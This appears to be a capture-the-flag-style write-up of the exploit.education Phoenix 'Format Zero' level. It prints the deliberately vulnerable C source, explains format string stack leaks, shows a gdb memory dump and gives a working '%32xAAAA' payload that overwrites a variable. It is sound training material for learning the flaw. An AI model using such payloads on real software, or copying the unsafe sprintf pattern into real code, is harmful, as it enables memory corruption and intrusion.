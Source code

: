 ```yaml
---
title: "Phoenix - Format Zero"
classes: wide
header:
  teaser: /assets/images/binary-exploitation/exploit-education/exploit-education.png
ribbon: red
description: "To learn about format string vulnerability see the references at the end.
This code uses **sprintf** function to write the formatted string **buffer** to **dest**.
The bug here is that if we entered a format string like **%d** without additional arguments (a number in this case) we could leak some values of the stack.
"
categories:
  - Binary Exploitation
---
```

```c
#include <err.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

int main(int argc, char **argv) {
  struct {
    char dest[32];
    volatile int changeme;
  } locals;
  char buffer[16];

  printf("%s\n", BANNER);

  if (fgets(buffer, sizeof(buffer) - 1, stdin) == NULL) {
    errx(1, "Unable to get buffer");
  }
  buffer[15] = 0;

  locals.changeme = 0;

  sprintf(locals.dest, buffer);

  if (locals.changeme != 0) {
    puts("Well done, the 'changeme' variable has been changed!");
  } else {
    puts(
        "Uh oh, 'changeme' has not yet been changed. Would you like to try "
        "again?");
  }

  exit(0);
}
```

To learn about format string vulnerability see the references at the end.

This code uses **sprintf** function to write the formatted string **buffer** to **dest**.

The bug here is that if we entered a format string like **%d** without additional arguments (a number in this case) we could leak some values of the stack.

For example:

```c
int main() {
	printf("%x.%x.%x");
}
# output: d0a8b868 d0a8b878 3c43b1b0
```

As you can see we were able to leak some stack addresses.

Back to our level we must overflow **dest** to overwrite **changeme** but the buffer is too small for that so we can use the format string trick to solve this.

As you saw that one **%x** prints 8 characters so we can enter: (4 %x + value of **changeme**).

We can also just enter one %x with padding of 32 bytes like this: (%32x + value of **changeme**).

```
user@phoenix-amd64:~$ gdb -q /opt/phoenix/amd64/format-zero 
Reading symbols from /opt/phoenix/amd64/format-zero...(no debugging symbols found)...done.

gef➤  disassemble main 
Dump of assembler code for function main:
.....
   0x0000000000400700 <+99>:	mov    eax,0x0
   0x0000000000400705 <+104>:	call   0x400500 <sprintf@plt>
   0x000000000040070a <+109>:	mov    eax,DWORD PTR [rbp-0x10]
.....

gef➤  b *0x000000000040070a
Breakpoint 1 at 0x40070a

gef➤  r
Starting program: /opt/phoenix/amd64/format-zero 
Welcome to phoenix/format-zero, brought to you by https://exploit.education
%32xAAAAAAAA

gef➤  x/5xg $rbp-0x30
0x7fffffffe620:	0x2020202020202020	0x2020202020202020
0x7fffffffe630:	0x2020202020202020	0x3031366566666666
0x7fffffffe640:	0x0000000a41414141
```

# Solution:

```
$ echo "%32xAAAA" | /opt/phoenix/amd64/format-zero 
Welcome to phoenix/format-zero, brought to you by https://exploit.education
Well done, the 'changeme' variable has been changed!  
```

#### References:

[http://codearcana.com/posts/2013/05/02/introduction-to-format-string-exploits.html](http://codearcana.com/posts/2013/05/02/introduction-to-format-string-exploits.html)